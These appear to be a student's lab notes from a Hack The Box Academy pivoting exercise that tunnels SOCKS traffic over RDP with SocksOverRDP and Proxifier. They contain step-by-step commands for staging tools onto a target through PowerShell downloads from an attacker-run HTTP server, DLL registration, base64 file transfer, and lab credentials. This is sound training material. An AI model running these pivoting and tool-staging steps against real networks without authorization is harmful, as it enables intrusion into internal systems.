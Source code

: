 # RDP and SOCKS Tunneling with SocksOverRDP

If we not be able to use SSH for pivoting.

1) Download binairies

wget https://github.com/nccgroup/SocksOverRDP/releases/download/v1.0/SocksOverRDP-x64.zip
unzip SocksOverRDP-x64.zip 
Archive:  SocksOverRDP-x64.zip
  inflating: SocksOverRDP-Plugin.dll  
  inflating: SocksOverRDP-Server.exe  


wget https://www.proxifier.com/download/ProxifierPE.zip
unzip ProxifierPE.zip 
Archive:  ProxifierPE.zip
   creating: Proxifier PE/
  inflating: Proxifier PE/Helper64.exe  
  inflating: Proxifier PE/Proxifier.exe  
  inflating: Proxifier PE/ProxyChecker.exe  
  inflating: Proxifier PE/PrxDrvPE.dll  
  inflating: Proxifier PE/PrxDrvPE64.dll  

2) Copy the SocksOverRDPx64.zip file to the target.

3) Loading SocksOverRDP.dll using regsvr32.exe

C:\Users\htb-student\Desktop\SocksOverRDP-x64> regsvr32.exe SocksOverRDP-Plugin.dll

4) Connect to DC over RDP using mstsc.exe

A popup prompts that the SocksOverRDP plugin is enabled, and it will listen on 127.0.0.1:1080

5) Use the credentials victor:pass@123 to connect

6) Transfer SocksOverRDPx64.zip or just the SocksOverRDP-Server.exe from the foothold to DC 

7) Run SocksOverRDP-Server.exe as Administrator

8) Confirming the SOCKS Listener is Started

C:\Users\htb-student\Desktop\SocksOverRDP-x64> netstat -antb | findstr 1080
  TCP    127.0.0.1:1080         0.0.0.0:0              LISTENING

9) Transfer Proxifier portable to the foothold target

10) Configure Proxifier to forward all our packets to 127.0.0.1:1080

Profile / Proxy Server / Add...
Address : 127.0.0.1 
Port : 1080
SOCKS Version 5

11) Start mstsc.exe 
mstsc.exe uses Proxifier to pivot all our traffic via 127.0.0.1:1080 and tunnel it over RDP to 172.16.5.19

## LAB

nmap -sV -oA nmap $TARGET --stats-every=5s

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

wget https://github.com/nccgroup/SocksOverRDP/releases/download/v1.0/SocksOverRDP-x64.zip
unzip SocksOverRDP-x64.zip 

wget https://www.proxifier.com/download/ProxifierPE.zip
unzip ProxifierPE.zip

xfreerdp /u:htb-student /v:$TARGET
HTB_@cademy_stdnt!

python3 -m http.server

cd c:\Users\htb-student\Desktop\
(New-Object Net.WebClient).DownloadFile('http://10.10.15.158:8000/SocksOverRDP-x64.zip ','SocksOverRDP-x64.zip ')
(New-Object Net.WebClient).DownloadFile('http://10.10.15.158:8000/ProxifierPE.zip ','ProxifierPE.zip ')

tar -xf SocksOverRDP-x64.zip


EXtract all : 
c:\Users\htb-student\Desktop\ProxifierPE
c:\Users\htb-student\Desktop\SocksOverRDP-x64

C:\Users\htb-student\Desktop\SocksOverRDP-x64> regsvr32.exe SocksOverRDP-Plugin.dll

(New-Object Net.WebClient).DownloadFile('http://10.10.15.158:8000/SocksOverRDP-Plugin.dll ','SocksOverRDP-Plugin.dll')

xfreerdp /v:$TARGET /d:HTB /u:htb-student /p:'HTB_@cademy_stdnt!' /drive:linux,/home/htb-ac-786011

md5sum id_rsa


172.16.6.155 (jason:WellConnected123!)

cd C:\Users\htb-student\Desktop\
Get-FileHash "C:\Users\htb-student\Desktop\SocksOverRDP-Server.exe" -Algorithm md5
CAF3898D0CFA91CA3ACC43B620BB0ED2
[Convert]::ToBase64String((Get-Content -path "C:\Users\htb-student\Desktop\SocksOverRDP-Server.exe" -Encoding byte)) > b64.txt

[IO.File]::WriteAllBytes("\SocksOverRDP-Server.exe", [Convert]::FromBase64String("TVqQAAMAAAAEAAAA//AAAAA="))

Get-FileHash "SocksOverRDP-Server.exe" -Algorithm md5
